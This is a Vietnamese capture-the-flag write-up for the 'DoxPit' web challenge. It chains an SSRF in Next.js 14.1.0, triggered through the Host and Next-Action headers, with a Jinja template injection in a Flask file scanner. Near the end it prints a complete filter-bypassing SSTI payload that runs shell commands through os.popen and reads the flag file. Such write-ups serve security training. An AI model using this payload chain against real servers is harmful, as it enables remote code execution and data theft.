## DoxPit


chỉ có `hall of fame` trả về nội dung, còn lại trả về `error`

mình view source code:


mình phải đọc được file flag.txt, hoặc là LFI, hoặc là RCE,..


tại `routes.py` có các route login,register,... mà trong khi đó ở trang index không có feature này, mình đã thử inject trong url rồi.

do đó mình sẽ chạy `python3 run.py` 
```
#run.py 

from application.app import app
from application.util.database import Database

if __name__ == "__main__":
    Database().migrate()
    app.run(host="0.0.0.0", port=3000, threaded=True, debug=False)
```

truy cập vào port 3000

khi mình đăng kí tài khoản thì được nhả về 1 token

giao diện sau login


có chức năng cho ta scan directory


nếu nhập vào các kí tự nằm trong `invalid_chars` thì sẽ trả về error

### SSTI
hàm `scan_directory` nhận path từ người dùng, sau đó tìm đệ quy tất cả các file trong thư mục đó và so sánh hash các file đó có nằm trong backlist không, nếu không thì trả về đưa kết quả vào template sau đó render, ở đây mình xác định được nó bị dính lỗi SSTI

dựa vào /templates/index.html mình xác định được Flask dùng jinja template

```
#scanner.py

import hashlib, os, datetime

BLACKLIST_HASHES = {
    "9c91a1b8c4da2d7588f3aecd76cdee7dba24d95f0874f79fa711c0b0a490e273",
    "cce955a091518aefb9693ba4e103cdc31afc138c9eb9503984bf08f5f70eff46",
    "a016313bc090d337a66dcefc7cc18a889f5c1cfc721185fa9ad7038159efb728",
    "c6ec11a31d4c28480f4ee3cc744792e12d7919cfffff5b7ca86649c904b7abda",
    "170477195896fb9c6688d56d6d6a4c3d2021fbc7cf01b38d45eb86fe94016333",
    "dbd741a45d840d06d708339f9e9824f2a0d745ea6537ca44bff233ba7441bfda",
    "049f48024f31d86c5d8bf56c3da1d7be539c877ad189fb0c5aa9a228601d19eb",
    "90efa2e75e2102942fba13cb4a5744530cd85e84fcfc8d7ddccdc17081ac3f69",
    "3e17df6d4f4f9f321f783a50e1f8b364203f181274ff217b0c2a216dff63d41f",
    "98942a0affa9721c90b097c2c6a9cd02959185526c3b7a44377a25b252a16fff",
    "c6ec11a31d4c28480f4ee3cc744792e12d7919cfffff5b7ca86649c904b7abda"
}

def calculate_sha256(filepath):
    sha256_hash = hashlib.sha256()
    with open(filepath, "rb") as file:
        for byte_block in iter(lambda: file.read(4096), b""):
            sha256_hash.update(byte_block)
    return sha256_hash.hexdigest()


def scan_directory(directory):
    scan_results = []
    for root, dirs, files in os.walk(directory):
        for file in files:
            file_path = os.path.join(root, file)
            try:
                file_hash = calculate_sha256(file_path)
                if file_hash in BLACKLIST_HASHES:
                    scan_results.append(f"Malicious file detected: {file} ({file_hash})")
                else:
                    scan_results.append(f"File is safe: {file} ({file_hash})")
            except Exception as e:
                scan_results.append(f"Error scanning file {file}: {str(e)}")

    return {
        "date": datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S"),
        "scanned_directory": directory,
        "report": scan_results
    }
```
### SSRF


như trong run.py mình thấy web chạy trên port 3000, do đó không thể truy cập trực tiếp. mình nghĩ tới SSRF để trigger SSTI. Qua quá trình racon mình phát hiện 

ứng dụng sử dụng next.js 14.1.0, mình search vulnerability của nó 

exploit bằng cách sửa `Host` và `Next-Action` trong req header

Next-Action có thể tìm thấy trong source web



### Get FLAG
đầu tiên mình host lại 1 server redirect tới /register trigger lỗ hổng SSRF và lấy token để login

thành công lấy `token = c253332b2c93c56429110d961f3f001c`


tiếp theo là payload SSTI, mình tham khảo từ hacktrick

` a 
`
vì có filter cho para `directory` nên mình cần sửa lại, lợi dụng `attr`, hàm này cho phép chúng ta lấy các thuộc tính mà không cần sử dụng dấu `.` . Do cũng không thể sử dụng \x nên việc encode hex là thừa thãi. 
Thay vào đó có thể sử dụng:
`request|attr(request.args.c) #Send a param like "?c=__class__`

sau khi tinh chỉnh payload mình có:
```
&globals=__globals__&getitem=__getitem__&builtins=__builtins__&import=__import__&cmd=ls -l /
```
encode:
```
{%with%20a=((((request|attr(%27application%27))|attr(request|attr(%22args%22)|attr(%22get%22)(%27globals%27)))|attr(request|attr(%22args%22)|attr(%22get%22)(%27getitem%27)))(request|attr(%22args%22)|attr(%22get%22)(%27builtins%27))|attr(request|attr(%22args%22)|attr(%22get%22)(%27getitem%27)))(request|attr(%22args%22)|attr(%22get%22)(%27import%27))(%27os%27)|attr(%27popen%27)(request|attr(%22args%22)|attr(%22get%22)(%27cmd%27))|attr(%27read%27)()%}&globals=__globals__&getitem=__getitem__&builtins=__builtins__&import=__import__&cmd=ls%20-l%20/
```




cat /flaga70608c6f3.txt
